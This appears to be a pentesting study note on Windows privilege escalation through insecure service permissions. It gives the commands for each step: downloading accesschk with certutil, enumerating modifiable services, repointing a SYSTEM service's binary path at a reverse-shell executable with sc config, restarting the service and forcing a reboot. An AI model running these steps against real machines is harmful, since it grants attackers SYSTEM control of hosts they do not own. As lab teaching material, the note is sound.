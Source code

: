 # Service Exploits - Insecure Service Permissions


Two conditions to be met:

1. A service running as SYSTEM.
2. The current user has permission to modify the configurations of that service,


Windows Sysinternals can be found:
- https://docs.microsoft.com/en-us/sysinternals/downloads/
- https://live.sysinternals.com/ (better to download direclty)

		certutil -urlcache -f https://live.sysinternals.com/accesschk.exe accesschk.exe
	
	
	Check for user `user` permissions on all services 
	
		accesschk.exe /accepteula -uwcqv <username> *

	Note if the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

	**Examples**
	
	![](1.png)
	
	
	Query the service and note if it runs with SYSTEM privileges (SERVICE_START_NAME):
		
		sc qc service name
		
	Exmaple
	
		sc qc daclsvc
	
	![](3.png)
	
	**Since the user has privilege to modify the service AND the service runs as SYSTEM, he can change the path of the binary to a malicious binary that will run in SYSTEM privilege**
	
	
	replace the path of the service with the path of the reverse shell
	
		sc config daclsvc binpath= "\"<Path of reverse shell places on the target>""
		
	Example
	
		sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
		
	Restart the service
	
		net start <Service-Name>
		
	Example
	
		net start daclsvc
		

If unable to start the service try rebooting

	shutdown /r /t 0


https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/